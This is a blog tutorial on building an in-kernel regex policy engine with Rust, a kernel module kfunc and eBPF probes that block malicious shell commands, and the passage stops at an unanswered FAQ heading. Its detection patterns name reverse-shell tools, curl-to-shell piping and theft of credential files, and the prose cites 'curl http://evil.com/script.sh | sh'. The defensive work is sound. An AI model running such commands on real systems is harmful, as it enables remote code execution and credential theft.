

+++
date = '2025-12-14T16:03:13+01:00'
years = ['2025']
draft = false
title = 'eBPF Policy Enforcement: Marrying Rust, kfuncs and regexes'
tags = ['ebpf', 'linux', 'lsm', 'kernel', 'c', 'rust']
seo = 'Build a kernel-level regex policy engine using eBPF kfuncs and Rust. Tutorial on implementing AMSI-like malicious script detection in Linux kernel.'
+++

eBPF offers unparalleled observability into the Linux kernel.
Mechanisms such as LSM probes, *bpf_override_return* and *bpf_send_signal* extend it beyond just a visibility provider, giving it the power to act as a policy enforcer.
However, building sophisticated policies in eBPF is challenging due to constraints imposed by the verifier, making it difficult to implement complex matching logic.
In this post, I'll explore a generic approach to bridging that gap by bringing the Rust [regex](https://github.com/rust-lang/regex/tree/master) library directly into the eBPF context.

<!--more-->

## Table of Contents

- [General idea](#general-idea)
- [Architecture](#architecture)
- [Kernel-enabled regex library](#kernel-enabled-regex-library)
  - [Heart of the library](#heart-of-the-library)
  - [FFI layer](#ffi-layer)
  - [Kernel allocator](#kernel-allocator)
  - [Building the library](#building-the-library)
- [SIMD in the kernel](#simd-in-the-kernel)
- [Kernel module](#kernel-module)
  - [switch_stack](#switch_stack)
  - [Per-CPU stacks](#per-cpu-stacks)
  - [init_regex_set](#init_regex_set)
  - [kfunc definition](#kfunc-definition)
  - [Thread-safety of the REGEX_SET](#thread-safety-of-the-regex_set)
  - [Module init](#module-init)
- [Linking the static library](#linking-the-static-library)
- [Calling a kfunc from eBPF](#calling-a-kfunc-from-ebpf)
- [Blocking malicious scripts from eBPF](#blocking-malicious-scripts-from-ebpf)
- [Putting it together](#putting-it-together)
- [Conclusion](#conclusion)

## General idea

Typical eBPF-native security/observability products offer some form of in-kernel (in eBPF) filtering capabilities, but they are limited when it comes to the expressivity of the available policies.
They tend to be restricted to unsophisticated rules such as: prevent binaries from a blocklist from running, prevent writing to a given directory, drop connections from a range of IPs, etc.
I'm not aware of any eBPF-native product capable of evaluating PCRE2 regexes.
Limitations of native eBPF, such as limited stack size, lack of dynamic memory, and no unbounded loops, make it particularly difficult to implement.

However, there's an escape hatch offered by the Linux kernel: the so-called [kfuncs](https://docs.kernel.org/bpf/kfuncs.html).
Kfuncs offer a mechanism for kernel modules to expose functions that can be called directly from eBPF programs, bypassing the usual verifier restrictions.

If you think about it, that's quite a powerful capability.
It enables building the event-collection layer with eBPF, leveraging [CO-RE](https://docs.ebpf.io/concepts/core/) to ease the pain of supporting different kernel versions.
This layer converts the activity to an internal and stable event representation, passing it to a policy engine exposed via kfunc.
The kfunc returns the decision synchronously, giving the eBPF side the opportunity to *synchronously* prevent the activity from happening.
In this post, I'll be exploring regexes, but by "policy engine" I mean: anything.
The limiting factor being: is it performant enough to run in a synchronous kernel probe?

## Architecture

I consider regexes on their own to be a sufficiently sophisticated "policy engine" to prove the usefulness of this technique.
We'll start by creating a regex library linkable against a Linux kernel module.
Our goal will be to have a static, kernel-compatible binary offering the C API to work with the regexes.
It will be wrapped in a minimalistic C-based kernel module, responsible for initialization and handling the registration of a regex-evaluation kfunc.

In the next step, we will create an eBPF program, leveraging the registered kfunc and the regex evaluation.
Its goal will be to replicate something similar to the [Antimalware Scan Interface (AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) - a Windows feature used by security products, to (synchronously!) prevent execution of malicious scripts.
Contrary to the AMSI, which is a user-space mechanism, the eBPF-based scanner will actually be residing in the kernel.
The probe will determine if the commands the user is trying to execute are malicious or not, by matching them against a set of regexes.
If the input is recognized as something malicious, the probe will block the execution attempt.
General methodology of setting up such probes with the [libbpf-rs](https://github.com/libbpf/libbpf-rs) was discussed in my previous post [eBPF + LSM: Synchronous execution prevention](/posts/2025/ebpf-lsm-synchronous-execution-prevention).



## Kernel-enabled `regex` library

The library will be implemented in Rust, with the C interface exposed via the FFI layer.
By doing that, I want to drive home the idea of having the most complex logic, which in this exercise is regex matching, implemented in a safe(ish) language.
Moreover, with this design, the library doesn't need to contain much kernel-specific code (except the allocator), and can be easily compiled and tested in user-space.
On top of that, we're able to use off-the-shelf Rust crates in the kernel, as long as they support `no_std`.

The core functionality will be handled by the Rust [regex](https://github.com/rust-lang/regex/tree/master) crate, with some additional scaffolding to:

1. Expose a C-compatible API
2. Provide a kernel-compatible allocator

**FYI:** I'm not using the [Rust for Linux](https://rust-for-linux.com/) project, which is supposed to be the go-to solution for Rust in the kernel, so this might not be the "proper" way of doing things.

### Heart of the library

`RegexSet` type serves as a library-owned wrapper over the [regex::RegexSet](https://docs.rs/regex/latest/regex/struct.RegexSet.html).
It offers an API to add patterns and finalize the set.
After the finalization, it's ready to be `evaluate()`-d against.

```rust
pub type PatternId = usize;

pub struct RegexSet { ... }

impl RegexSet {
    pub fn new(name: impl Into<String>) -> Self;
    pub fn name(&self) -> &str;
    pub fn finalized(&self) -> bool;
    pub fn add(&mut self, pattern: &str) -> Result<PatternId, RegexError>;
    pub fn remove(&mut self, pattern_id: PatternId) -> Result<(), RegexError>;
    pub fn clear(&mut self);
    pub fn len(&self) -> usize;
    pub fn finalize(&mut self) -> Result<(), RegexError>;
    pub fn evaluate(&self, input: &str) -> Result<bool, RegexError>;
}
```

### FFI layer

The FFI layer is implemented using the typical [cbindgen](https://github.com/mozilla/cbindgen) and `extern "C"` methodology.

Most of the API operates on an opaque `RegexSet*` pointer.
The typical workflow is: create a set with `regex_set_create()`, add patterns via `regex_set_add_pattern()`, call `regex_set_finalize()` to compile them, then use `regex_set_evaluate()` to match against input strings. 
All functions report errors through an out-parameter.

```c
#pragma once

typedef enum RegexError {
  RegexError_Success,
  RegexError_InvalidPattern,
  RegexError_NoPatterns,
  RegexError_SetNotFinalized,
  RegexError_PatternNotFound,
  RegexError_NullPointer,
  RegexError_InvalidUtf8,
  RegexError_OutOfMemory,
} RegexError;

typedef struct RegexSet RegexSet;
typedef uintptr_t PatternId;

typedef struct RegexSetVersion {
  uint8_t major;
  uint8_t minor;
  uint8_t patch;
} RegexSetVersion;

struct RegexSetVersion regex_set_version(void);
struct RegexSet *regex_set_create(const char *regex_set_name);
uintptr_t regex_set_len(struct RegexSet *set, enum RegexError *error);
PatternId regex_set_add_pattern(struct RegexSet *set, const char *pattern, enum RegexError *error);
void regex_set_remove_pattern(struct RegexSet *set, PatternId pattern_id, enum RegexError *error);
void regex_set_clear(struct RegexSet *set, enum RegexError *error);
void regex_set_finalize(struct RegexSet *set, enum RegexError *error);
bool regex_set_evaluate(const struct RegexSet *set, const char *value, enum RegexError *error);
void regex_set_free(struct RegexSet *set);
```

### Kernel allocator

[regex](https://github.com/rust-lang/regex/tree/master) is `no_std`, but requires `alloc` (i.e., dynamic memory), therefore a global allocator must be defined.
Surprisingly, this is not hard to do. 
We can move the responsibility for alloc/free implementation to the kernel module itself - so that it can pick from any of the available kernel allocators.

The library introduces a forward declaration of `linux_module_malloc` and `linux_module_free`.
Then it uses them in the `GlobalAlloc` implementation.
These symbols will be expected to be present at link-time, giving an opportunity for the module to define them.

```rust
use core::alloc::{GlobalAlloc, Layout};

use core::ffi::c_void;

// Linux module must define these functions.
extern "C" {
    fn linux_module_malloc(size: usize) -> *mut c_void;
    fn linux_module_free(obj: *const c_void);
}

pub struct LinuxAllocator;

unsafe impl GlobalAlloc for LinuxAllocator {
    unsafe fn alloc(&self, layout: Layout) -> *mut u8 {
        linux_module_malloc(layout.size()) as *mut _
    }

    unsafe fn dealloc(&self, ptr: *mut u8, _layout: Layout) {
        linux_module_free(ptr as *const _)
    }
}

#[global_allocator]
static GLOBAL_ALLOCATOR: LinuxAllocator = LinuxAllocator;
```

The kernel module side (in C) can implement them using any allocator. 
I'm using the basic slab allocator:

```c
#include <linux/slab.h>

void* linux_module_malloc(uintptr_t size) {
    return kmalloc(size, GFP_ATOMIC);
}

void linux_module_free(const void *obj) {
    kfree(obj);
}
```

### Building the library

The module must be built as a static library (`.a` file) with a nightly compiler.
A custom target `.json` is required to make the compiled code kernel-compatible.
I'm leaving it up to the readers to create their own target definition.
Taking a look at how the [Rust for Linux](https://rust-for-linux.com/) compiles things should be a good starting point.

```bash
$ cargo +nightly build --no-default-features -Z build-std=core,alloc --release --target x86_64-unknown-linuxkernel.json
   ...
   Compiling regex-automata v0.4.13
   Compiling regex v1.12.2
    Finished `release` profile [optimized] target(s) in 25.13s

$ nm -g target/x86_64-unknown-linuxkernel/release/libregex_c.a  | grep regex_set_
0000000000000000 T regex_set_add_pattern
0000000000000000 T regex_set_clear
0000000000000000 T regex_set_create
0000000000000000 T regex_set_evaluate
0000000000000000 T regex_set_finalize
0000000000000000 T regex_set_free
0000000000000000 T regex_set_len
0000000000000000 T regex_set_remove_pattern
0000000000000000 T regex_set_version
```

## SIMD in the kernel

SIMD instructions commonly used by regex libraries require extra care in kernel space. 
Using them clobbers values used by user-space processes, as the kernel does not preserve FPU state.
On top of that, they require the stack to be 16-byte aligned, and the x64 kernel does not provide that guarantee.
A naive way of solving both problems would be to disable all SIMD features from the `target.json` file.
This, however, might negatively affect performance.
As the module is intended to be run in a performance-critical path, we won't take that route.

The clobbering issue is easily addressable by sandwiching the calls to the library code between `kernel_fpu_begin()` and `kernel_fpu_end()`.
This makes the kernel take ownership of the FPU state and disables preemption.

The second issue is trickier.
The compiled library assumes that it runs on a 16-byte aligned stack, which is a user-space guarantee.
The kernel guarantees only 8-byte alignment on x64.
I haven't been able to configure the Rust compiler to generate code expecting a different alignment than 16 bytes.
Surprisingly, this is actually fine if there are no SIMD instructions but breaks horribly if we introduce some.
Essentially, we're getting a 50-50 chance of a crash on each SIMD instruction.
We can, however, get around this by applying the stack-swapping technique from my previous article - [escaping the OS-provided stack](/posts/2025/escaping-the-os-provided-stack/#bonus-recursive-variant).

Each CPU will get its own 16-byte-aligned buffer, serving as a dedicated stack for regex evaluation via `regex_set_evaluate`. 
Since `kernel_fpu_begin()`, which we need to call anyway, disables preemption, we're ruling out the possibility of two per-CPU stacks being used at the same time.

## Kernel module

Equipped with this knowledge, we're ready to draft the kernel module.
I'm working on kernel `6.8.0-71` - some APIs around kfunc definitions differ slightly in newer kernels (e.g., `BTF_KFUNCS_START`/`BTF_KFUNCS_END` instead of `BTF_SET8_START`/`BTF_SET8_END`).

We'll start by including the required headers - all standard Linux headers, except for `regex_c.h`, which is a cbindgen-generated header for our regex library.

We also need to implement the symbols required by the [global allocator](#kernel-allocator).
I'm using the standard slab allocator (`kmalloc`/`kfree`).
This approach delegates memory allocation to the kernel module, keeping the library agnostic to the specific allocator being used.
`GPF_ATOMIC` flag is used, to avoid sleeping in the eBPF probe context.

```c {hl_lines=[9,11,12]}
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/bpf.h>
#include <linux/btf.h>
#include <linux/btf_ids.h>

#include "regex_c.h"

void* linux_module_malloc(uintptr_t size) { return kmalloc(size, GFP_ATOMIC); }
void linux_module_free(const void *obj) { kfree(obj); }
```

### `switch_stack`

The stack switch routine helps in satisfying the 16-byte alignment requirements of SIMD instructions used inside the regex library.
Calls to the library code will be executed on auxiliary stacks, backed by per-CPU global memory.
The implementation is available in my [Escaping the OS-provided stack](/posts/2025/escaping-the-os-provided-stack/#bonus-recursive-variant) post.

```c
noinline static void switch_stack(void (*callback)(void*), void* arg, void* stack_buf, uintptr_t stack_size);
```

### Per-CPU stacks

Each CPU gets a dedicated 64KB buffer that serves as a properly-aligned stack for regex operations. 
The `alloc_percpu_buffers()` function allocates these buffers at module load, while `free_percpu_buffers()` releases them at unload.
During regex evaluation, the current CPU's buffer is accessed by calling `this_cpu_ptr(&regex_percpu_buf)`.

This per-CPU approach should be safe because preemption is disabled during the kfunc execution (via `kernel_fpu_begin()`).
Without preemption disabled, a task could be migrated to a different CPU mid-execution, causing it to use the wrong buffer - or worse, two tasks on the same CPU could interleave their use of the same buffer, leading to stack corruption.

```c
// Per-CPU buffers for regex library calls (64KB each)
#define REGEX_PERCPU_BUF_SIZE (64 * 1024)
static DEFINE_PER_CPU(char*, regex_percpu_buf);

static int alloc_percpu_buffers(void) {
    int cpu;
    char **buf_ptr;

    for_each_possible_cpu(cpu) {
        buf_ptr = per_cpu_ptr(&regex_percpu_buf, cpu);
        *buf_ptr = kmalloc(REGEX_PERCPU_BUF_SIZE, GFP_KERNEL);
        if (*buf_ptr == NULL) {
            printk(KERN_ERR "Regex Set: Failed to allocate per-CPU buffer for CPU %d\n", cpu);
            return -ENOMEM;
        }
    }
    return 0;
}

static void free_percpu_buffers(void) {
    int cpu;
    char **buf_ptr;

    for_each_possible_cpu(cpu) {
        buf_ptr = per_cpu_ptr(&regex_percpu_buf, cpu);
        kfree(*buf_ptr);
        *buf_ptr = NULL;
    }
}
```

### `init_regex_set`

This function initializes a `RegexSet` containing patterns for detecting potentially malicious command-line inputs, such as reverse-shell attempts or piped execution.
It stores the result in a global `REGEX_SET` pointer for later use inside the kfunc.
The unused `void* arg` parameter exists because this function runs on the auxiliary stack via [switch_stack](#switch_stack) and must match the expected signature.

For this proof-of-concept, the patterns are hardcoded.
In a real-world scenario, they would be configurable and loaded dynamically - for example, from a user-space agent using the procfs or sysfs.

```c
static const char* PATTERNS[] = {
    "(nc|ncat|netcat).*(-e|-c|--exec|--sh-exec)",
    "python(3)?.*(import\\s+(socket|subprocess)|socket\\.socket|connect\\()",
    "(curl|wget|fetch).*\\|.*(bash|sh|zsh|ksh|csh|tcsh|dash|python|python3|perl|ruby|php)",
    "(cat|less|more|head|tail|vim|nano|vi|view|xxd|strings|base64).*(/etc/(passwd|shadow|sudoers|ssh/|ssl/)|/root/\\.ssh/|id_rsa|id_dsa|id_ecdsa|id_ed25519|\\.pem|\\.key)"
};
static RegexSet* REGEX_SET = NULL;

static void init_regex_set(void* arg) {
    RegexError error;
    PatternId pattern_id;
    RegexSet* set;

    // Create a new regex set for security monitoring
    set = regex_set_create("cmdline_detector");
    if (set == NULL) {
        printk(KERN_ERR "Regex Set: Failed to create regex set!\n");
        return;
    }
    printk(KERN_INFO "Regex Set: Created RegexSet\n");

    // Add patterns to the regex set
    for (int i = 0; i < sizeof(PATTERNS)/sizeof(char*); i++) {
        pattern_id = regex_set_add_pattern(set, PATTERNS[i], &error);
        if (error != RegexError_Success) {
            printk(KERN_ERR "Regex Set: Pattern add failed (index: %d, error: %d)\n", i, error);
            regex_set_free(set);
            return;
        }
    }

    // Finalize the regex set
    regex_set_finalize(set, &error);
    if (error != RegexError_Success) {
        printk(KERN_ERR "Regex Set: Failed to finalize regex set (error: %d)\n", error);
        return;
    }

    // Update the global REGEX_SET
    REGEX_SET = set;
    printk(KERN_INFO "Regex Set: Malicious command detection patterns finalized successfully\n");
}
```

### `kfunc` definition

This is the most important piece of the module - the kfunc that eBPF programs will call to evaluate strings against our regex set.
I found [the article](https://eunomia.dev/tutorials/43-kfuncs/) from [eunomia.dev](https://eunomia.dev/) helpful when setting this up.

Since `switch_stack` accepts only a single `void*` argument, the `regex_eval_args` struct bundles the input string, error status, and result together.
The `do_regex_evaluate` wrapper then unpacks these fields and calls into the Rust library.
The main `bpf_regex_set_match` function first validates its inputs, then sandwiches the regex evaluation between `kernel_fpu_begin()` and `kernel_fpu_end()` for SIMD safety.
The evaluation itself happens on the auxiliary stack to satisfy 16-byte alignment requirements.
It returns `1` for a match, `0` for no match, or a negative value on error.

```c
struct regex_eval_args {
    const char *str;
    RegexError error;
    bool result;
};

static void do_regex_evaluate(void *arg) {
    struct regex_eval_args *args = arg;
    args->result = regex_set_evaluate(REGEX_SET, args->str, &args->error);
}

__bpf_kfunc int bpf_regex_set_match(const char *str);

__bpf_kfunc_start_defs();

__bpf_kfunc int bpf_regex_set_match(const char *str) {
    struct regex_eval_args args;
    char *aux_stack;

    if (!REGEX_SET || !str) {
        printk(KERN_INFO "Regex Set Kfunc: nullptr\n");
        return -1;
    }

    kernel_fpu_begin();

    aux_stack = *this_cpu_ptr(&regex_percpu_buf);

    args.str = str;
    args.error = RegexError_Success;
    args.result = false;
    switch_stack(do_regex_evaluate, &args, aux_stack, REGEX_PERCPU_BUF_SIZE);

    kernel_fpu_end();

    if (args.error != RegexError_Success) {
        return -2;
    }
    return args.result ? 1 : 0;
}

__bpf_kfunc_end_defs();

BTF_SET8_START(regex_set_kfunc_ids)
BTF_ID_FLAGS(func, bpf_regex_set_match, KF_RCU)
BTF_SET8_END(regex_set_kfunc_ids)

static const struct btf_kfunc_id_set regex_set_kfunc_set = {
    .owner = THIS_MODULE,
    .set   = &regex_set_kfunc_ids,
};
```

### Thread-safety of the `REGEX_SET` 

The kfunc might be executed simultaneously on multiple CPUs, raising an obvious question - is the global `REGEX_SET` approach thread-safe?

Most regex implementations require a mutable cache space to operate on.
Hyperscan moves the responsibility of the scratch space management onto the users, requiring it to be passed as an extra argument of the search APIs like [`hs_scan`](https://intel.github.io/hyperscan/dev-reference/api_files.html#c.hs_scan).
Rust regex does require scratch space as well.
A naive way of solving this problem would be re-creating a cache on each search, but that's not what is being done.
So how is the access to that memory managed and is it really thread-safe?

As it turns out, it is. 
The regex cache access is synchronized internally using the [`regex_automata::util::Pool`](https://docs.rs/regex-automata/latest/regex_automata/util/pool/struct.Pool.html) type.
In `no_std` scenarios like ours, it defaults to a spin-lock.
This ensures thread-safety; however, it might raise some performance concerns.
Even the [`Pool`](https://docs.rs/regex-automata/latest/regex_automata/util/pool/struct.Pool.html) documentation suggests that using [`thread_local!`](https://doc.rust-lang.org/std/macro.thread_local.html) (requires `std`) might be the best solution.
The kernel doesn't offer [`thread_local!`](https://doc.rust-lang.org/std/macro.thread_local.html), however if lock contention turns out to be a problem, it's possible to initialize `RegexSet*` on a per-CPU basis, similarly to what's being done for the stacks.
Alternatively, one could use the lower-level APIs offered by the [`regex-automata`](https://docs.rs/regex-automata/latest/regex_automata/index.html) crate and manage the scratch space by hand. 

For the rest of the post, I'll stick with the global `REGEX_SET` as it will serve us perfectly fine for now.

### Module init

The module init function orchestrates the setup: allocates per-CPU buffers, initializes the regex set on the auxiliary stack, and registers the kfunc with the eBPF subsystem.
I'm skipping the exit function implementation, as it simply mirrors the cleanup logic at the `finish` label - freeing per-CPU buffers and the `REGEX_SET`.

```c
static int __init regex_set_module_init(void) {
    char *aux_stack;
    int ret = 0;

    ret = alloc_percpu_buffers();
    if (ret)
        goto finish;
    printk(KERN_INFO "Regex Set: Allocated per-CPU buffers (%d bytes each)\n", REGEX_PERCPU_BUF_SIZE);

    kernel_fpu_begin();

    aux_stack = *this_cpu_ptr(&regex_percpu_buf);
    switch_stack(init_regex_set, NULL, aux_stack, REGEX_PERCPU_BUF_SIZE);

    kernel_fpu_end();
    
    if (REGEX_SET == NULL) {
        printk(KERN_ERR "Regex Set: Failed to initialize regex set\n");
        ret = -EINVAL;
        goto finish;
    }

    // BPF_PROG_TYPE_UNSPEC works for kprobes and LSM on 6.8
    ret = register_btf_kfunc_id_set(BPF_PROG_TYPE_UNSPEC, &regex_set_kfunc_set);
    if (ret) {
        printk(KERN_ERR "Regex Set: Failed to register regex kfunc\n");
        goto finish;
    }
    printk(KERN_INFO "Regex Set: Registered eBPF kfunc 'int bpf_regex_set_match(const char*)'\n");

finish:
    if (ret != 0) {
        free_percpu_buffers();
        if (REGEX_SET) {
            regex_set_free(REGEX_SET);
            REGEX_SET = NULL;
        }
    }
    return ret;
}
```

## Linking the static library

The module is more or less finished. When we try to build it now, we'll encounter linkage issues:

```bash
ERROR: modpost: "regex_set_create" [/vagrant/linux/regex_set.ko] undefined!
ERROR: modpost: "regex_set_finalize" [/vagrant/linux/regex_set.ko] undefined!
ERROR: modpost: "regex_set_add_pattern" [/vagrant/linux/regex_set.ko] undefined!
ERROR: modpost: "regex_set_free" [/vagrant/linux/regex_set.ko] undefined!
ERROR: modpost: "regex_set_evaluate" [/vagrant/linux/regex_set.ko] undefined!
```

Getting the static library linked against the kernel module turned out to be quite a challenge to figure out.
However, I found one useful resource showing this could actually be done: the [rustyvisor](https://github.com/iankronquist/rustyvisor/blob/1fae5813b5c42c58bdc654b93209b46badae2dae/linux/Makefile#L27) project.
What seems to be required for KBuild to actually link our static library is:

- Changing the static library's extension from `.a` to `.o`
- Generating a `.cmd` file for the new `.o` file 

The `.cmd` file tells the build system what command should be executed to produce the object file.
In our case, it's a `cp` command that copies the `.a` from Cargo's target directory.
I ended up with something like this in my Makefile, to have it automatically invoke Cargo:

```make
LIB_NAME := libregex_c
LIB_HEADER := regex_c.h
LIB_STATIC := $(LIB_NAME).a
LIB_OBJECT := $(LIB_NAME).o
CARGO_TARGET := ../target/x86_64-unknown-linuxkernel/release

build-lib:
	@echo "Building static library..."
	@cd .. && cargo +nightly build --no-default-features -Z build-std=core,alloc --release --target x86_64-unknown-linuxkernel.json

$(LIB_HEADER): build-lib
	@echo "Copying header library to the current directory..."
	@mv ../$@ ./

$(LIB_OBJECT): $(CARGO_TARGET)/$(LIB_STATIC) build-lib
	@echo "Copying static library to the current directory..."
	@cp $(realpath $<) $@
	@echo "cmd_$(realpath $@) := cp $< $@" > .$@.cmd
```

Finally, we need to instruct KBuild to include our library when linking the module. The key is line 4 - the `$(MODULE_NAME)-y` variable lists all object files that should be linked together to form the final `.ko`:

```make {hl_lines=[4]}
# Module name (should match the .c file name without extension)
MODULE_NAME := regex_set
obj-m := $(MODULE_NAME).o
$(MODULE_NAME)-y := module.o $(LIB_OBJECT)
# Enable debug info, required for BTF generation
ccflags-y += -g
# Prevent stripping so DWARF is preserved for pahole
KBUILD_EXTRA_SYMBOLS :=
```

After jumping through all these hoops, the module successfully builds, linking against our Rust library:

```bash
$ make
...
Copying header library to the current directory...
make: Warning: File '../target/x86_64-unknown-linuxkernel/release/libregex_c.a' has modification time 0.49 s in the future
Copying static library to the current directory...
cp /sys/kernel/btf/vmlinux /lib/modules/6.8.0-71-generic/build/vmlinux
make -C /lib/modules/6.8.0-71-generic/build M=/vagrant/linux modules
make[1]: Entering directory '/usr/src/linux-headers-6.8.0-71-generic'
warning: the compiler differs from the one used to build the kernel
  The kernel was built by: x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
  You are using:           gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
  CC [M]  /vagrant/linux/module.o
  LD [M]  /vagrant/linux/regex_set.o
  MODPOST /vagrant/linux/Module.symvers
  CC [M]  /vagrant/linux/regex_set.mod.o
  LD [M]  /vagrant/linux/regex_set.ko
  BTF [M] /vagrant/linux/regex_set.ko
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-71-generic'
```

The `dmesg` output after running `insmod regex_set.ko` confirms the module loaded successfully:

```bash
[11905.013008] regex_set: loading out-of-tree module taints kernel.
[11905.013014] regex_set: module verification failed: signature and/or required key missing - tainting kernel
[11905.027789] Regex Set: Allocated per-CPU buffers (65536 bytes each)
[11905.027798] Regex Set: Created RegexSet
[11905.029221] Regex Set: Malicious command detection patterns finalized successfully
[11905.029225] Regex Set: Registered eBPF kfunc 'int bpf_regex_set_match(const char*)'
```

## Calling a kfunc from eBPF

With the kernel module loaded and the kfunc registered, we can now write an eBPF program that calls `bpf_regex_set_match` to evaluate command-line arguments against our regex patterns.

For the user-space loader, I'll follow the approach outlined in my earlier post - [eBPF + LSM: Synchronous execution prevention](/posts/2025/ebpf-lsm-synchronous-execution-prevention) - which covers the user-space side in detail.
The gist: a minimal [libbpf-rs](https://github.com/libbpf/libbpf-rs)-based utility loads the eBPF programs into the kernel.
For this proof of concept, we won't need any of the more advanced features like skeleton pre-configuration (e.g. with the policy configuration) or event notifications.
In this architecture, the regexes, serving as the "policy", reside in the kernel module.

Before creating something AMSI-like, let's do a quick sanity-check to confirm everything is wired up correctly.
I'll re-use the previously implemented `lsm/bprm_check_security` probe to check if the binary path matches a pattern - if it does, the execution will be blocked.

First, we need to modify the patterns hardcoded in the kernel module.
Let's try blocking paths to binaries commonly used to spawn reverse shells - `nc`, `ncat`, `netcat`, `socat`, etc.

```c
static const char* PATTERNS[] = {
    "(?:^|/)(?:nc|ncat|netcat|socat)",
};
```

The eBPF program hooks the `lsm/bprm_check_security` probe.
It extracts the path of the binary being launched, and passes it to our `bpf_regex_set_match` kfunc, blocking execution by returning `-EPERM` if the path matches any of the patterns.

```c
extern int bpf_regex_set_match(const char *str) __ksym;

SEC("lsm/bprm_check_security")
int BPF_PROG(handle_bprm_check_security, struct linux_binprm *bprm) {
    struct path path = BPF_CORE_READ(bprm, file, f_path);
    const char* filepath = get_path_str(&path);
    if (!filepath) {
        return 0;
    }

    bpf_printk("bprm_check_security: testing filepath='%s'\n", filepath);
    int match = bpf_regex_set_match(filepath);
	if (match == 1) {
		bpf_printk("bprm_check_security: execution blocked");
		return -EPERM;
	} else {
		return 0;
	}
}
```

Now, when an attempt is made to execute any of the binaries covered by the pattern, the execution is blocked.
This proves we're indeed evaluating regexes!

```bash
$ nc
bash: /usr/bin/nc: Operation not permitted
$ socat
bash: /usr/bin/socat: Operation not permitted
$ netcat
bash: /usr/bin/netcat: Operation not permitted
```

## Blocking malicious scripts from eBPF

The `lsm/bprm_check_security` probe provides a `struct linux_binprm*`, containing the `argv` array of the executed program.
It's possible to reconstruct the argument string and perform regex matching against it.
However, this approach has a severe limitation: its context is limited to a single process.
When you think about it, malicious inputs are commonly a combination of multiple executables glued together with shell magic - a classic example being `curl http://evil.com/script.sh | sh`.
It's certainly possible to do stateful correlation in the LSM probes to detect piping attempts, but I've decided to go a different route for this PoC.

The solution I came up with is fairly simple and handles only inputs made in interactive sessions.
It comes with some flaws, but it showcases the power of having a capable policy engine running inside eBPF.
Here's how it works:

1. We create a `uretprobe` on the `readline` function in a shell process (`/bin/bash`). This function returns the user's input, giving us an opportunity to capture it.
2. The captured buffer is saved in a `BPF_MAP_TYPE_LRU_HASH` map, which serves as a state holder for an upcoming `fork()`. The key is the `pid_tgid` of the current process.
3. We create a `kprobe` on the `clone` syscall that checks for an entry in the map for the current `pid_tgid`. If found, we evaluate the stored value against the regex set. *Note:* We hook `sys_clone` rather than `sys_fork` because modern Linux implements `fork()` as a wrapper around `clone`. 
4. If a regex matches, we override the return value of `fork()` to `-EPERM`, blocking execution. Otherwise, we allow the syscall to proceed. *Note:* Kernel must enable `CONFIG_BPF_KPROBE_OVERRIDE`.
5. After evaluation, the entry is removed from the map.

```c
#define MAX_CMDLINE (1 << 14)

typedef struct cmdline_t {
    char str[MAX_CMDLINE];
} cmdline_t;

struct {
    __uint(type, BPF_MAP_TYPE_LRU_HASH);
    __type(key, u64);
    __type(value, cmdline_t);
    __uint(max_entries, 1024);
} pid_to_cmdline SEC(".maps");

SEC("uretprobe//bin/bash:readline")
int BPF_KRETPROBE(bash_readline_ret, const void *ret)
{
    if (!ret) {
        return 0;
    }

    buf_t* buf = get_buf(CMDLINE_BUF_IDX);
    if (!buf) {
        return 0;
    }

    u64 pid_tgid = bpf_get_current_pid_tgid();
    cmdline_t* cmdline = (cmdline_t*) buf->buf;

    if (bpf_probe_read_user_str(cmdline->str, MAX_CMDLINE, ret) > 0) {
        bpf_map_update_elem(&pid_to_cmdline, &pid_tgid, cmdline, BPF_ANY);
    }
    return 0;
};

SEC("kprobe/__x64_sys_clone")
int kprobe_sys_clone(struct pt_regs *ctx)
{
    u64 pid_tgid = bpf_get_current_pid_tgid();

    cmdline_t *cmdline = bpf_map_lookup_elem(&pid_to_cmdline, &pid_tgid);
    if (!cmdline) {
        return 0;
    }

    int match = bpf_regex_set_match(cmdline->str);
    if (match == 1) {
        bpf_printk("__x64_sys_clone: BLOCKING execution of %s\n", cmdline->str);
        bpf_override_return(ctx, -EPERM);
    } else if (match < 0) {
        bpf_printk("__x64_sys_clone: error checking %s (match=%d)\n", cmdline->str, match);
    }

    bpf_map_delete_elem(&pid_to_cmdline, &pid_tgid);
    return 0;
}
```

There are a few things to unpack here. Let's go through them one by one.

#### Why can't we just `bpf_override_return` from the `readline` call?

This is imposed by the kfuncs design - they're not allowed to run in all types of eBPF programs, including uprobes/uretprobes.

#### What if `readline` is not followed by a `fork` syscall?

This is a common case - for example, when the user executes only built-in shell commands or inputs an empty string.
By using `BPF_MAP_TYPE_LRU_HASH`, the oldest and unused entries get evicted automatically.
The map is also bounded in size, so memory impact is predictable and won't grow indefinitely.

#### What if there's a `fork` syscall without a prior `readline`?

If there's no map entry for a given `pid_tgid`, the syscall proceeds normally.

When an entry exists and matches a pattern, the fork is blocked and the entry is evicted - making the system self-healing.
For added robustness, one could attach an additional `uprobe` inside the `/bin/bash` at a point that confirms the shell is actually about to fork.
If that's the case, a special flag in `cmdline_t` could be set to true.
The `kprobe` would then validate whether this flag is set.
If not - implying the program didn't go through the expected pathway - the syscall proceeds normally, without performing extra checks.

#### What's with that `get_buf` business?

